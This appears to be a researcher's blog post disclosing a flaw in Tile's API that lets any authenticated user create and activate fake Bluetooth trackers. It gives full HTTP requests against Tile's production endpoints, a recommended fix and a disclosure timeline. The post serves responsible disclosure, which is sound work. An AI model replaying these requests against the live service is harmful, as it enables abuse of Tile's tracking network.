 ```yaml
---
title: 'Tile - Creating Fake Trackers'
publishedAt: '2024-07-05'
description: "Tile, a company selling Bluetooth-based location trackers, has a vulnerability that allows an authenticated attacker to create fake trackers. I uncovered this vulnerability during my master's thesis, in which I analyzed the security and privacy of the Tile ecosystem."
tags:
  - security
---
```


In my master's thesis, I analyzed the security and privacy of large portions of Tile's ecosystem.
During this, I discovered several security vulnerabilities affecting various components and features.
I reported these vulnerabilities to Tile, following [Google Project Zero's responsible disclosure policy](https://googleprojectzero.blogspot.com/2021/04/policy-and-disclosure-2021-edition.html).
However, as the 90-day deadline is over and Tile has failed to respond or patch the issues, I'm publishing my findings in hopes of raising awareness.
This post describes one vulnerability that allows any authenticated adversary to create fake trackers.

# Vulnerability

It is possible to create fake trackers with unused Tile UUIDs.

The endpoint used to add a Tile tracker to an account doesn't prohibit creating a tracker with an unused Tile UUID.

Essentially, this allows attackers to create almost as many fake trackers as they want without buying legitimate Tile trackers.
All fake trackers are treated by the Tile network as genuine trackers.

# Proof-of-Concept

The process is relatively simple.
The attacker must first sign in to their account.
Then, they must send one request to register a fake tracker and another request to actually activate the tracker.
If the attacker doesn't activate the tracker, some features, such as _Community Find_, will not work with that tracker.

## 1. Authentication

To create a fake tracker, the attacker needs a valid client UUID and use it to sign in to their account.
The attacker can create a valid client UUID by generating a random UUID and registering it with Tile by sending the following request:

```http
PUT https://production.tile-api.com/api/v1/clients/c7394030-5b88-44a2-b1be-704b730b07c7 HTTP/2.0
tile_client_uuid: c7394030-5b88-44a2-b1be-704b730b07c7
[...]: [...]


registration_timestamp=1720090702959&app_id=android-tile-production&app_version=2.115.0.5050
```

Afterwards, they can sign in to their account with the following request:

```http
POST https://production.tile-api.com/api/v1/clients/c7394030-5b88-44a2-b1be-704b730b07c7/sessions HTTP/2.0
tile_client_uuid: c7394030-5b88-44a2-b1be-704b730b07c7
[...]: [...]

email=********&password=********
```

## 2. Creating a Fake Tracker

Using the session cookie and the client UUID of the authentication, the attacker can then create fake tracker by sending the following request:

```http
POST https://production.tile-api.com/api/v1/tiles/75edcdf5bdcae9d3 HTTP/2.0
content-type: multipart/form-data; boundary=30f4a406-0a01-495b-8018-b9f087e6226e
tile_client_uuid: c7394030-5b88-44a2-b1be-704b730b07c7
cookie: session=[...]
[...]: [...]

--30f4a406-0a01-495b-8018-b9f087e6226e
Content-Disposition: form-data; name="tile_uuid"
Content-Transfer-Encoding: binary
Content-Type: text/plain; charset=UTF-8
Content-Length: 16

75edcdf5bdcae9d3
--30f4a406-0a01-495b-8018-b9f087e6226e
Content-Disposition: form-data; name="name"
Content-Transfer-Encoding: binary
Content-Type: text/plain; charset=UTF-8
Content-Length: 12

Fake Tracker
--30f4a406-0a01-495b-8018-b9f087e6226e--
```

The field Tile UUID specified in the request can be any random 8-byte value that is not yet linked to any actual Tile tracker.

## 3. Activating the Fake Tracker

In the last step, the attacker must activate the fake tracker by sending the following request:

```http
PUT https://production.tile-api.com/api/v1/tiles/75edcdf5bdcae9d3 HTTP/2.0
content-type: multipart/form-data; boundary=f0845924-3003-45d8-9aa0-816cc3870b89
tile_client_uuid: c7394030-5b88-44a2-b1be-704b730b07c7
cookie: session=[...]
[...]: [...]

--f0845924-3003-45d8-9aa0-816cc3870b89
Content-Disposition: form-data; name="status"
Content-Transfer-Encoding: binary
Content-Type: text/plain; charset=UTF-8
Content-Length: 9

ACTIVATED
--f0845924-3003-45d8-9aa0-816cc3870b89
Content-Disposition: form-data; name="group_id"
Content-Transfer-Encoding: binary
Content-Type: text/plain; charset=UTF-8
Content-Length: 36

[...]
--f0845924-3003-45d8-9aa0-816cc3870b89--
```

# Fix

It is recommended to verify that the Tile UUID is linked to a Tile tracker.

# Timeline

- 2024-03-13: Contacted Life 360's security contact through responsibledisclosure@life360.com
- 2024-05-21: Contacted Tile's support asking for a status update
